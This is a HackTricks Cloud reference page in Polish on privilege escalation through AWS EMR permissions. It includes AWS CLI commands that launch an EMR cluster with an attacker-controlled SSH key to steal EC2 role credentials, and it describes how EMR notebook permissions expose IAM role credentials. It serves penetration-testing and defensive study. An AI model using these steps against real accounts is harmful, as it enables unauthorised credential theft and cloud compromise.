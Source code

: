 # AWS - EMR Eskalacja uprawnień

<details>

<summary><strong>Dowiedz się, jak hakować AWS od zera do bohatera z</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Inne sposoby wsparcia HackTricks:

* Jeśli chcesz zobaczyć swoją **firmę reklamowaną w HackTricks** lub **pobrać HackTricks w formacie PDF**, sprawdź [**PLAN SUBSKRYPCJI**](https://github.com/sponsors/carlospolop)!
* Zdobądź [**oficjalne gadżety PEASS & HackTricks**](https://peass.creator-spring.com)
* Odkryj [**Rodzinę PEASS**](https://opensea.io/collection/the-peass-family), naszą kolekcję ekskluzywnych [**NFT**](https://opensea.io/collection/the-peass-family)
* **Dołącz do** 💬 [**grupy Discord**](https://discord.gg/hRep4RUj7f) lub [**grupy telegramowej**](https://t.me/peass) lub **śledź** nas na **Twitterze** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Podziel się swoimi sztuczkami hakerskimi, przesyłając PR-y do** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>

## EMR

Więcej **informacji na temat EMR** znajdziesz w:

{% content-ref url="../aws-services/aws-emr-enum.md" %}
[aws-emr-enum.md](../aws-services/aws-emr-enum.md)
{% endcontent-ref %}

### `iam:PassRole`, `elasticmapreduce:RunJobFlow`

Atakujący posiadający te uprawnienia może **uruchomić nowy klaster EMR, dołączając role EC2** i próbować ukraść jego poświadczenia.\
Należy zauważyć, że w celu wykonania tego zadania musisz **znać klucz prywatny ssh zaimportowany do konta** lub zaimportować jeden oraz być w stanie **otworzyć port 22 w węźle głównym** (możesz to zrobić za pomocą atrybutów `EmrManagedMasterSecurityGroup` i/lub `ServiceAccessSecurityGroup` wewnątrz `--ec2-attributes`).
```bash
# Import EC2 ssh key (you will need extra permissions for this)
ssh-keygen -b 2048 -t rsa -f /tmp/sshkey -q -N ""
chmod 400 /tmp/sshkey
base64 /tmp/sshkey.pub > /tmp/pub.key
aws ec2 import-key-pair \
--key-name "privesc" \
--public-key-material file:///tmp/pub.key


aws emr create-cluster \
--release-label emr-5.15.0 \
--instance-type m4.large \
--instance-count 1 \
--service-role EMR_DefaultRole \
--ec2-attributes InstanceProfile=EMR_EC2_DefaultRole,KeyName=privesc

# Wait 1min and connect via ssh to an EC2 instance of the cluster)
aws emr describe-cluster --cluster-id <id>
# In MasterPublicDnsName you can find the DNS to connect to the master instance
## You cna also get this info listing EC2 instances
```
Zauważ, że w `--service-role` jest określona rola **EMR**, a w `--ec2-attributes` wewnątrz `InstanceProfile` jest określona rola **ec2**. Jednak ta technika pozwala tylko na kradzież poświadczeń roli EC2 (ponieważ połączysz się za pomocą ssh), ale nie roli IAM EMR.

**Potencjalne skutki:** Przywileje dla roli usługi EC2.

### `elasticmapreduce:CreateEditor`, `iam:ListRoles`, `elasticmapreduce:ListClusters`, `iam:PassRole`, `elasticmapreduce:DescribeEditor`, `elasticmapreduce:OpenEditorInConsole`

Z tymi uprawnieniami atakujący może przejść do **konsoli AWS**, utworzyć notatnik i uzyskać do niego dostęp w celu kradzieży roli IAM.

{% hint style="danger" %}
Nawet jeśli dołączysz rolę IAM do instancji notatnika, w moich testach zauważyłem, że byłem w stanie ukraść zarządzane poświadczenia AWS, a nie poświadczenia związane z rolą IAM.
{% endhint %}

**Potencjalne skutki:** Przywileje dla zarządzanej roli AWS arn:aws:iam::420254708011:instance-profile/prod-EditorInstanceProfile

### `elasticmapreduce:OpenEditorInConsole`

Tylko z tym uprawnieniem atakujący będzie mógł uzyskać dostęp do **Jupyter Notebook i ukraść rolę IAM** z nią związaną.\
Adres URL notatnika to `https://<notebook-id>.emrnotebooks-prod.eu-west-1.amazonaws.com/<notebook-id>/lab/`

{% hint style="danger" %}
Nawet jeśli dołączysz rolę IAM do instancji notatnika, w moich testach zauważyłem, że byłem w stanie ukraść zarządzane poświadczenia AWS, a nie poświadczenia związane z rolą IAM.
{% endhint %}

**Potencjalne skutki:** Przywileje dla zarządzanej roli AWS arn:aws:iam::420254708011:instance-profile/prod-EditorInstanceProfile

<details>

<summary><strong>Naucz się hakować AWS od zera do bohatera z</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Inne sposoby wsparcia HackTricks:

* Jeśli chcesz zobaczyć **reklamę swojej firmy w HackTricks** lub **pobrać HackTricks w formacie PDF**, sprawdź [**PLAN SUBSKRYPCJI**](https://github.com/sponsors/carlospolop)!
* Zdobądź [**oficjalne gadżety PEASS & HackTricks**](https://peass.creator-spring.com)
* Odkryj [**Rodzinę PEASS**](https://opensea.io/collection/the-peass-family), naszą kolekcję ekskluzywnych [**NFT**](https://opensea.io/collection/the-peass-family)
* **Dołącz do** 💬 [**grupy Discord**](https://discord.gg/hRep4RUj7f) lub [**grupy telegramowej**](https://t.me/peass) lub **śledź** nas na **Twitterze** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Podziel się swoimi trikami hakerskimi, przesyłając PR do** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
